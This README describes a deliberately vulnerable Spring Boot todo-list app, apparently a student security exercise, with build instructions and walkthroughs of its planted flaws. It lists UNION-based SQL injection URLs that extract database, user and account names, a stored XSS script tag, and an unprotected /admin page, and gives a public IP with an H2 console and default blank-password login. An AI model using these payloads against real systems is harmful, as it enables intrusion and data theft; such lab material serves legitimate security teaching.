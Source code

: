 # Non-Secure TodoList

Todo list have got existing vulnerability

Cloud IP (site adress) 

http://46.101.193.234:8087

H2 - Database Adress

http://46.101.193.234:8087/h2-console

H2 console a girişten sonra

Saves setting : Generic H2(embedded) 

JDBC url : jdbc:h2:mem:testdb

Username :sa

password boş olcak

## Getting Started


### How to Run

#### Build Spring Boot Project with Maven
To be able to run your Spring Boot app you will need to first build it. To build and package a Spring Boot app into a single executable Jar file with a Maven, use the below command. You will need to run it from the project folder which contains the pom.xml file.
  ```
  maven package
  ```
  or you can also use
  ```
  mvn install
  ```
  
#### Run Spring Boot app with java -jar command
To run your Spring Boot app from a command line in a Terminal window you can you the java -jar command. This is provided your Spring Boot app was packaged as an executable jar file.  

 ```
 java -jar target/todolist-0.0.1-SNAPSHOT.jar
 ```

#### Run Spring Boot app using Maven
You can also use Maven plugin to run your Spring Boot app. Use the below example to run your Spring Boot app with Maven plugin
  
  ```
  mvn spring-boot:run
  ```
  
  for windows
  ```
  mvnw spring-boot:run
  ```


## Running the tests

- Project will start on 8080 port and you can access localhost:8080
- You must register for add post

### SQL INJECTION

- After adding article , go to article detail page for sql injection (lhttp://localhost/post/1)
- Some sql injection script ()

```
  http://localhost:8080/post/1 order by 6--
```

Now we will use Union select statement over here.

```
  http://localhost:8080/post/-1 order by 6--
```

Here a small understanding of the web application is required, If you see any of these numbers printed in the webpage or the title or anywhere else then you can know the the developer is printing multiple rows

| Variable/Function  | Output |
| ------------- | ------------- |
| @@hostname  | Current Hostname  |
| @@tmpdir  | Tept Directory  |
| @@datadir  | Data Directory  |
| @@version  | Version of DB  |
| @@basedir  | Base Directory  |
| user()  | Current User  |
| database()  | Current Database  |
| version()  | Version  |
| schema()  | current Database  |
| UUID()  | System UUID key  |
| current_user()  | Current User  |
| system_user()  | Current System User  |
| session_user  | Current Session User  |
| @@GLOBAL.have_symlink  | Check if Symlink Enabled or Disabled  |
| @@GLOBAL.have_ssl  | Check if it have ssl or not  |


As we know that third is the column which is getting printed so now we will use the above functions on place of that columns only.

```
To get the Current Database Name
http://localhost:8080/post/-1 union select 1,2,database(),4,5,6--
```

```
To get the Current User
http://localhost:8080/post/-1 union select 1,2,user(),4,5,6--
```

Query : Select column1 from tablename

```
http://localhost:8080/post/-1 union Select 1,2,concat(USER_NAME),4,5,6 from User limit 0,1--

```

This allows access to other user information.

### Cross Site Scripting (XSS)

### Stored/Persistent XSS
 Where the malicious string originates from the website's database.
 
 -You can add scripting code into post title input then you execute this code.
 -You can try to put javascript code into title input as following
 
 <script>window.location.replace("http://google.com");</script>
 
## FINAL PROJECT UPDATE
 
### Security Misconfiguration

You can enter post detail page and put quotes after the url and site shows you vulnerability on screen

### Broken Access Control

if you create new user ,you can try to access /admin page and you see this user access this url becouse of there is no 'OPA' control 




